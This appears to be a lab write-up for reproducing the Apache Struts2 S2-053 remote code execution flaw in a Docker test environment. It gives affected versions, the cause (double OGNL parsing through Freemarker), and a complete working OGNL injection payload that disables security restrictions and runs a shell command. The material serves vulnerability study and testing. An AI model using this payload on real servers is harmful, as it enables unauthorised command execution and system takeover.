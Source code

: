 # S2-053 Remote Code Execution Vulnerability

Impact version: Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10

Vulnerability details:

 - http://struts.apache.org/docs/s2-053.html
 - https://mp.weixin.qq.com/s?__biz=MzU0NTI4MDQwMQ==&mid=2247483663&idx=1&sn=6304e1469f23c33728ab5c73692b675e

## Test environment construction

```
Docker-compose up -d
```

After the environment is running, you can see a submission page by visiting `http://your-ip:8080/hello.action`.

## Vulnerability recurrence

Struts2 allows simultaneous parsing of OGNL expressions when using the Freemarker template engine. The data that causes the user input is not resolved by OGNL itself, but after being parsed once by Freemarker, it becomes an expression and is parsed by OGNL a second time, causing arbitrary command execution vulnerabilities.

Enter the following Payload to successfully execute the command:

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(# ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(# context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win' ))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p =new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(# process.getInputStream()))}

```

![](01.png)

Explanation: Some students said that they could not reproduce the loopholes. After my test, I found that the **newline ** at the end of the above Payload could not be dropped (that is, the payload must be followed by a newline, although I don't know why), then send It will be successful.